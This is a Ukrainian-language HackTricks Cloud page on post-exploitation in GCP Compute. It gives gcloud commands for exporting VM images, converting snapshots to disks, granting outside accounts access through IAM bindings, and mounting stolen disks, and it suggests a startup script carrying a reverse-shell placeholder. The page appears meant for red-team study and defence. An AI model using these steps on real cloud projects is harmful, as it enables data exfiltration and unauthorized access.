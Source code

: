 # GCP - Compute Post Exploitation

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (Networking) перевірте:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Експорт та інспекція образів локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться в уже існуючих образах**, або **створити нові образи працюючих ВМ** і отримати доступ до їх даних без доступу до працюючої ВМ.

Можливо експортувати образ ВМ до бакету, а потім завантажити його та змонтувати локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Для виконання цієї дії зловмиснику можуть знадобитися привілеї над сховищем bucket і обов'язково **привілеї над cloudbuild**, оскільки це **сервіс**, який буде запитуватися для виконання експорту.\
Крім того, для цього потрібно, щоб codebuild SA і compute SA мали привілейовані дозволи.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` потребує:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потребує:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Експорт та інспекція знімків і дисків локально

Неможливо безпосередньо експортувати знімки і диски, але можливо **перетворити знімок у диск, диск в образ** і, слідуючи **попередньому розділу**, експортувати цей образ для інспекції локально

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Перевірка образу шляхом створення VM

З метою доступу до **даних, що зберігаються в образі** або всередині **запущеної VM**, з якої зловмисник **створив образ,** можливо надати зовнішньому обліковому запису доступ до образу:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створіть нову VM з нього:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не могли надати доступ до свого зовнішнього облікового запису через образ, ви могли б запустити VM, використовуючи цей образ у проекті жертви і **змусити метадані виконати зворотний shell** для доступу до образу, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

З метою доступу до **даних, що зберігаються на диску або знімку, ви можете перетворити знімок на диск, диск на образ і слідувати попереднім крокам.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо початковою точкою є знімок, надати доступ до знімка або створити диск з нього):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Приєднати диск** до інстансу:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Монтування диска всередині VM:

1.  **SSH у VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Ідентифікація диска**: Після входу у VM, ідентифікуйте новий диск, перелічивши пристрої диска. Зазвичай, ви можете знайти його як `/dev/sdb`, `/dev/sdc` тощо.
3. **Форматування та монтування диска** (якщо це новий або сирий диск):
*   Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Монтуйте диск:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, можливо, вам потрібно **виконати ці дії всередині інстансу в тому ж проекті, що і знімок/диск**.

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами у **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
